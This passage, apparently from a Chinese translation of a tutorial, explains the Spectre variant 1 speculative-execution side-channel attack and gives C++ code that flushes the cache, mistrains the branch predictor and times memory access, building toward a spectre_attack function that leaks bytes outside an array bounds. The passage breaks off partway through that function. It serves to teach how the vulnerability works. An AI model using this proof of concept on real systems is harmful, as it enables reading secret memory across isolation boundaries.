 你可能会想，为什么不简单地寻找一个快速访问呢？两个原因: 首先，我们不知道*快速*对于任何特定的硬件到底意味着什么; 我们只知道它比*正常*更快。所以我们也必须测量什么是*正常*。其次，任何单独的测量都不会 100% 可靠: 有时，计算被另一个进程或操作系统中断; 整个操作序列的确切时间取决于 CPU 当时还在做什么，依此类推。这个过程很有可能会在秘密内存位置显示值，但不能 100% 保证，所以我们必须尝试几次并平均结果。

在此之前，我们看到的代码中有几个遗漏。首先，它假设时序数组值已经不在缓存中。即使我们开始的时候是真的，也不会是在我们成功地窥视了第一个秘密字节之后。我们必须清除的时间数组从缓存之前，我们开始攻击下一个字节，我们想读:

```cpp
for (size_t i = 0; i < num_val; ++ i) {
    _mm_clflush(timing_array + i);    // Un-cache the array
}
```

同样，我们使用 GCC/Clang 内置函数; 大多数编译器都有类似的东西，但是函数名称可能会有所不同。

其次，只有在推测性执行持续足够长的时间以使两个内存访问 (数据和定时阵列) 发生的情况下，攻击才起作用，然后 CPU 才确定应该采用哪个分支。实际上，编写的代码在推测性执行上下文中没有花费足够的时间，因此我们必须使计算正确的分支变得更加困难。有不止一种方法可以做到这一点; 在这里，我们使分支条件依赖于从内存中读取一些值。我们将把数组大小复制到另一个访问速度较慢的变量中:

```cpp
std::unique_ptr<size_t> data_size(new size_t(size));
```

现在，我们必须确保在需要读取它并使用存储在`*data_size`中的数组大小值而不是原始`size`值之前，该值已从缓存中逐出:

```cpp
_mm_clflush(&*data_size);
for (volatile int z = 0; z < 1000; ++ z) {}  // Delay
const size_t i = (i_read & 0xf) ? ok_index : evil_index;
if (i < *data_size) {
    access_memory(timing_array + data[i]);
}
```

在前面的代码中还有一个神奇的*延迟*，一些无用的计算将缓存刷新与对数据大小的访问分开 (它击败了可能的指令重新排序，这将使 CPU 更快地访问数组大小)。现在条件`i < *data_size`需要一些时间来计算: CPU 需要从内存中读取值，然后才能知道结果。分支是根据更可能的结果来预测的，这是一个有效的索引，因此可以推测地访问数组。

## 幽灵，释放

最后一步是将所有内容放在一起，并多次运行该过程以累积统计上的可靠的测量结果 (单个指令的定时测量结果非常嘈杂，因为计时器本身需要与我们尝试测量的时间一样长)。

以下函数攻击数据数组之外的单个字节:

```cpp
char spectre_attack(const char* data, 
                    size_t size, size_t evil_index) {
  constexpr const size_t num_val = 256;
  struct timing_element { char s[1024]; };
  static timing_element timing_array[num_val];
  ::memset(timing_array, 1, sizeof(timing_array));
  std::array<long, num_val> latencies = {};
  std::array<int, num_val> scores = {};
  size_t i1 = 0, i2 = 0;      // Two highest scores
  std::unique_ptr<size_t> data_size(new size_t(size));
  constexpr const size_t n_iter = 1000;
  for (size_t i_iter = 0; i_iter < n_iter; ++ i_iter) {
    for (size_t i = 0; i < num_val; ++ i) {
      _mm_clflush(timing_array + i);  // Un-cache the array
    }
    const size_t ok_index = i_iter % size;
    constexpr const size_t n_read = 100;
    for (size_t i_read = 0; i_read < n_read; ++ i_read) {
      _mm_clflush(&*data_size);
      for (volatile int z = 0; z < 1000; ++ z) {}  // Delay
      const size_t i = (i_read & 0xf) ? ok_index : 
        evil_index;
      if (i < *data_size) {
        access_memory(timing_array + data[i]);
      }
    }
```